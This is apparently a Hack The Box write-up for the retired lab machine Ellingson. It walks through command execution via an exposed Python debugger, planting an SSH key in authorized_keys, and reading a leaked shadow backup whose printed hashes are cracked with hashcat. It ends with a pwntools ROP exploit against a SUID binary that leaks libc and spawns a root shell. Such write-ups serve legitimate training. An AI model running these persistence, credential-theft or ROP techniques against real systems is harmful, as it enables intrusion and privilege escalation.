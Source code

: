 ```yaml
---
layout: post
title:  "Ellingson Walkthrough"
author: nanobyte
date:   2019-10-22
description: Hack The Box writeup for Ellingson, Retired Hard Box
tags: ROP SSH Python test
---
```

{{ site.tags }}

Ellingson was an awesome box to root! Not only did I get to sharpen some of my ROP skills, but the throwback to one of my favorite movies (Hackers) was a treat from beginning to root. For those of you who have not seen Hackers, shame on you. Go watch it! This box was also awesome because getting the initial foothold was not the average run this flavor exploit, but really had to think out of the box for me and starting new. So, lets get started!

First off, I ran nmap against the box

{% highlight bash lineos %}
nmap -sV -sC -p- -oA ellingson.htb 10.10.10.139
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-22 10:15 CDT
Nmap scan report for 10.10.10.139
Host is up (0.066s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%),
Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A
or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.92 seconds
{% endhighlight %}

Once I was able to identify what services were running, I hopped on over to the website and began to poke around while running gobuster. When I got to the /articles/ directory, I noticed the numbers incremented and so manually fuzzed. Fuzzing http://10.10.10.139/articles/5 was able to find python interactive shells. There, I had access to a python debugger!

{% highlight bash lineos %}
File "/opt/corp-web/run.py", line 32, in show_articles
slug = articles[index-1]

>>> import getpass
>>> print(getpass.getuser())
hal
{% endhighlight %}

Nice! I found I have the ability to run os system commands. During enumeration, I also found that there is Port 22 open. First, I tried to steal the SSH key, but I did not know the key passphrase. However, looking further, I can write to the authorized_keys file! Since taking the id_rsa key file on there didn’t work, let’s generate a new key, and place our pub key in there:

{% highlight bash lineos %}
import os

os.system("echo '\nssh-rsa [your RSA key] root@kali' >> /home/hal/.ssh/authorized_keys")
{% endhighlight %}

And now I can login to SSH! Awesome, initial foothold gained!

Now that we login, during further enumeration we are user Hal and need to get to user. Enumerating the system, there is a backup folder. In there, we have read permissions to shadow.bak!? Bad admin!

{% highlight bash lineos %}
cat /var/backups/shadow.bak

root:*:17737:0:99999:7:::
daemon:*:17737:0:99999:7:::
bin:*:17737:0:99999:7:::
sys:*:17737:0:99999:7:::
sync:*:17737:0:99999:7:::
games:*:17737:0:99999:7:::
man:*:17737:0:99999:7:::
lp:*:17737:0:99999:7:::
mail:*:17737:0:99999:7:::
news:*:17737:0:99999:7:::
uucp:*:17737:0:99999:7:::
proxy:*:17737:0:99999:7:::
www-data:*:17737:0:99999:7:::
backup:*:17737:0:99999:7:::
list:*:17737:0:99999:7:::
irc:*:17737:0:99999:7:::
gnats:*:17737:0:99999:7:::
nobody:*:17737:0:99999:7:::
systemd-network:*:17737:0:99999:7:::
systemd-resolve:*:17737:0:99999:7:::
syslog:*:17737:0:99999:7:::
messagebus:*:17737:0:99999:7:::
_apt:*:17737:0:99999:7:::
lxd:*:17737:0:99999:7:::
uuidd:*:17737:0:99999:7:::
dnsmasq:*:17737:0:99999:7:::
landscape:*:17737:0:99999:7:::
pollinate:*:17737:0:99999:7:::
sshd:*:17737:0:99999:7:::
theplague:$6$.5ef7Dajxto8Lz3u$Si5BDZZ81UxRCWEJbbQH9mBCdnuptj/aG6mqeu9UfeeSY7Ot9gp2wbQLTAJaahnlTrxN613L6Vner4tO1W.ot/:17964:0:99999:7:::
hal:$6$UYTy.cHj$qGyl.fQ1PlXPllI4rbx6KM.lW6b3CJ.k32JxviVqCC2AJPpmybhsA8zPRf0/i92BTpOKtrWcqsFAcdSxEkee30:17964:0:99999:7:::
margo:$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:17964:0:99999:7:::
duke:$6$bFjry0BT$OtPFpMfL/KuUZOafZalqHINNX/acVeIDiXXCPo9dPi1YHOp9AAAAnFTfEh.2AheGIvXMGMnEFl5DlTAbIzwYc/:17964:0:99999:7:::
{% endhighlight %}

Let’s crack those hashes!

{% highlight bash %}
hashcat64.exe -m 1800 -a 0 ellingsin.txt rockyou.txt --force

theplague:password123
margo:iamgod$08
{% endhighlight %}

Now that it’s cracked, let’s login as user!

{% highlight bash %}
su margo

cat /home/margo/user.txt
d0ff9e3f9da8--------------------
{% endhighlight %}

From here, I ran the linenum.sh script, and found a binary running that should NOT be there!

{% highlight bash %}
find / -perm -u=s -type f 2>/dev/null

/usr/bin/garbage
{% endhighlight %}

I tried several methods to get the binary to my box. All ways failed, until I found openssl base64! 

{% highlight bash %}
openssl base64 < garbage

//Copy output of encoded garbage

//On your machine, create garbage.input

openssl base64 -d < garbage.input > garbage.output
{% endhighlight %}

Garbage.output is now the binary on your system! For the ROP, I had to watch Bitterman's video several times, and speak woith the HTB community on Discord (if you are NOT on their channel, I highly recommend it. There is a community of hackers who really do want to help you along with nudges!). After watching the second half of the video, and chatting with a few fellow hackers, I was able to come up with the following:

{% highlight bash %}
from pwn import *

context(terminal=['tmux', 'new-window'])
session = ssh('margo', '10.10.10.139', password='iamgod$08')

p = session.process('/usr/bin/garbage')
#p = gdb.debug('./garbage', 'b main')

context(os='linux', arch='amd64')
#context.log_level = 'DEBUG'

# make sure these are local and freshly grabbed from remote with correct permissions
garbage = ELF('garbage')
rop = ROP(garbage)
libc = ELF('libc.so.6')
junk = "A" * 136

# build rop chain
rop.search(regs=['rdi'], order='regs')
rop.puts(garbage.got['puts'])
rop.call(garbage.symbols['main'])
print "ROP Chain 1:\n{}".format(rop.dump())

payload = junk + str(rop)
p.recvuntil('password:')
p.sendline(payload)
p.recvuntil('denied.')

leaked_puts_address_in_libc = p.recv()[:8].strip().ljust(8, "\x00")
print("Leaked puts@GLIBCL {}".format(str(leaked_puts_address_in_libc)))

# unpack
leaked_puts_address_in_libc = u64(leaked_puts_address_in_libc)

libc.address = leaked_puts_address_in_libc - libc.symbols['puts']
rop2 = ROP(libc)
rop2.setuid(0x0)
rop2.system(next(libc.search('/bin/sh\x00')))
print "ROP Chain 2:\n{}".format(rop2.dump())

payload = junk + str(rop2)
p.sendline(payload)
p.recvuntil('denied.')

p.clean()
p.interactive()
{% endhighlight %}

Now, once you run the binary on your local system, it will deliver root!

{% highlight bash %}
cat /root/root.txt
1cc73a448021--------------------
{% endhighlight %}
